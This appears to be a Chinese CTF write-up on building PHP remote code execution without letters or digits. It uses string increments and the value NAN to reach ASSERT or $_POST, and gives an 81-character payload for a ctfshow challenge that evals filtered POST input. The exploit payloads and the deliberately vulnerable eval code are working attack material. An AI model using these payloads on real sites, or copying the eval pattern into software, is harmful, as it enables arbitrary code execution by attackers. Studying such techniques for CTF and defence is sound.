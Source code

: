 ## **用自增实现无字母RCE**
前提能$符号

有如下
```
"A"++ ==> "B"
"B"++ ==> "C"
```
也就是说，如果我们能够得到"A"，那么我们就能通过自增自减，得到所有的字母。那么问题就转化为怎么得到一个字符"A"。
在PHP中如果强制连接数组和字符串的话，数组将被转换成字符串，其值为"Array"。
再取这个字符串的第一个字母，就可以获得"A"。
```
<?php
$a = ''.[];
var_dump($a);
```
组合
```
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])
```
缩减后
```
```

学习：<https://www.cnblogs.com/m1xian/p/18360023>
注意：执行的时候要进行一次 URL 编码+好，否则 Payload 无法执行。




^
## **如果允许0，可以更短**
还有1/_==INF，下划线也可快速构造NAN，如

```bash
	$a=_/_._;   // NAN_
```

如此，有`'N'==$a[0]`
N 跟 O 很近，构造 _POST，通过二次引用即 $\_POST[0](https://www.cnblogs.com/viistar/p/$_POST%5B_%5D); 可执行任意php代码。\
注意$a++; ++$a;的区别，建议先加再用。\
能用的短变量有`$_` 、`$__` 、`$_0` 三个.后面才知道还能用不可见字符替换php变量名称`$%ff`，这样就更短了。\
题目

```php
	<?php

	//本题灵感来自研究Y4tacker佬在吃瓜杯投稿的shellme时想到的姿势，太棒啦~。

	error_reporting(0);

	highlight_file(__FILE__);

	 

	if (isset($_POST['ctf_show'])) {

	    $ctfshow = $_POST['ctf_show'];

	    if (is_string($ctfshow) && strlen($ctfshow) <= 84) {

	        if (!preg_match("/[a-zA-Z1-9!'@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){

	            eval($ctfshow);

	        }else{

	            echo("Are you hacking me AGAIN?");

	        }

	    }else{

	        phpinfo();

	    }

	}
```

我的解法81位

```php
	<?php 

	$a=(_/_._)[0];// NAN 取 N

	$aa=++$a;// O

	$a0=++$a.$aa;// PO

	++$a/++$a;

	$a=_.$a0.=++$a.++$a;// _.POST

	$$a[0]($$a[_]);

	//var_dump($a);
```

去掉注释，php开头，替换a为下划线得

```powershell
	$_=(_/_._)[0];$__=++$_;$_0=++$_.$__;++$_/++$_;$_=_.$_0.=++$_.++$_;$$_[0]($$_[_]);
```

接下来url编码，post传`ctf_show=xxxxx&0=system&_=ls`，搞定！

ps: url编码的三种方法\
1.python 的from urllib import quote\
2.php的 echo urlencode\
3.burp suite 的decode 标签\
最短rce5长度72，以后通杀无字母数字！

